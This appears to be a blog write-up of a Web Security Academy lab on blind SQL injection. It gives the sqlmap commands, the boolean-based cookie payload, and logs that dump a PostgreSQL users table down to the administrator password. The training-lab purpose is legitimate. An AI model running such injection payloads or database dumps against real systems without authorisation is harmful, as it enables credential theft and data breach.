 ```yaml
---
layout: post
title:  "Blind SQL injection with conditional responses"
date:   2024-09-22 09:39:54 +0530
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution 

When I put `'` into all the sensitive areas like cookie, param value and Interrstingly, the trackingId value is vulnerable to Blind SQL injection 

Because when u don't add `'` into `trackingId` you will see a string called `Welcome back` 

![]({{ site.baseurl }}/assets/images/sqli47.png)

But when you add `'` and `Welcome back` string disappears 

![]({{ site.baseurl }}/assets/images/sqli48.png)

With `SQLmap` we can automate further and here we found this application is vulnerable to a SQL injection and it uses `PostgreSQL` 

```sh
$ sqlmap -u "https://0aba00e704a0e247d90aa592003b00b9.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" --level 3 

[11:05:47] [INFO] Cookie parameter 'TrackingId' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Welcome back!")
[11:05:47] [INFO] testing 'Generic inline queries'
[11:05:47] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:05:48] [INFO] testing 'PostgreSQL error-based - Parameter replace'
[11:05:48] [INFO] testing 'PostgreSQL inline queries'
[11:05:48] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:05:49] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc - comment)'
[11:05:49] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:05:55] [INFO] testing 'PostgreSQL > 8.1 time-based blind - Parameter replace'
[11:05:55] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:05:55] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:05:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:05:58] [INFO] target URL appears to have 1 column in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
[11:06:19] [INFO] target URL appears to be UNION injectable with 1 columns
[11:06:21] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[11:06:31] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[11:06:40] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[11:06:49] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[11:06:59] [INFO] checking if the injection point on Cookie parameter 'TrackingId' is a false positive
Cookie parameter 'TrackingId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 480 HTTP(s) requests:
---
Parameter: TrackingId (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: TrackingId=4HWFjkvkQS0pdMwd' AND 9875=9875-- jCQf; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i
---
[11:07:12] [INFO] testing PostgreSQL
[11:07:12] [INFO] confirming PostgreSQL
[11:07:13] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:07:24] [INFO] fetched data logged to text files under '/Users/nits/.local/share/sqlmap/output/0aba00e704a0e247d90aa592003b00b9.web-security-academy.net'

[*] ending @ 11:07:24 /2024-09-22/
```

Dumping the database and found the `administrator` credentials being dumped out 

```sh
 nits@FWS-CHE-LT-8869  /tmp  sqlmap -u "https://0aba00e704a0e247d90aa592003b00b9.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" --level 3 --dbms="postgreSQL" --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:08:20 /2024-09-22/

[11:08:21] [INFO] testing connection to the target URL
[11:08:22] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: TrackingId (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: TrackingId=4HWFjkvkQS0pdMwd' AND 9875=9875-- jCQf; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i
---
[11:08:22] [INFO] testing PostgreSQL
[11:08:22] [INFO] confirming PostgreSQL
[11:08:22] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:08:22] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:08:22] [INFO] fetching current database
[11:08:22] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:08:22] [INFO] retrieved: 
do you want to URL encode cookie values (implementation specific)? [Y/n] n
public
[11:08:51] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
[11:08:51] [INFO] fetching tables for database: 'public'
[11:08:51] [INFO] fetching number of tables for database 'public'
[11:08:51] [INFO] retrieved: 2
[11:08:55] [INFO] retrieved: tracking
[11:09:30] [INFO] retrieved: users
[11:09:53] [INFO] fetching columns for table 'tracking' in database 'public'
[11:09:53] [INFO] retrieved: 1
[11:09:56] [INFO] retrieved: id
[11:10:11] [INFO] fetching entries for table 'tracking' in database 'public'
[11:10:11] [INFO] fetching number of entries for table 'tracking' in database 'public'
[11:10:11] [INFO] retrieved: 1
[11:10:14] [INFO] retrieved: 4HWFjkvkQS0pdMwd
Database: public
Table: tracking
[1 entry]
+------------------+
| id               |
+------------------+
| 4HWFjkvkQS0pdMwd |
+------------------+

[11:11:38] [INFO] table 'public.tracking' dumped to CSV file '/Users/nits/.local/share/sqlmap/output/0aba00e704a0e247d90aa592003b00b9.web-security-academy.net/dump/public/tracking.csv'
[11:11:38] [INFO] fetching columns for table 'users' in database 'public'
[11:11:38] [INFO] retrieved: 3
[11:11:41] [INFO] retrieved: email
[11:11:58] [INFO] retrieved: password
[11:12:32] [INFO] retrieved: username
[11:13:02] [INFO] fetching entries for table 'users' in database 'public'
[11:13:02] [INFO] fetching number of entries for table 'users' in database 'public'
[11:13:02] [INFO] retrieved: 3
[11:13:06] [INFO] retrieved:  
[11:13:11] [INFO] retrieved: 5hfnoaj3hayybellcxwy
[11:14:22] [INFO] retrieved: administrator
[11:15:15] [INFO] retrieved:  
[11:15:20] [INFO] retrieved: 
```

With those credentials logged in as `administrator` and lab is solved 

![]({{ site.baseurl }}/assets/images/sqli49.png)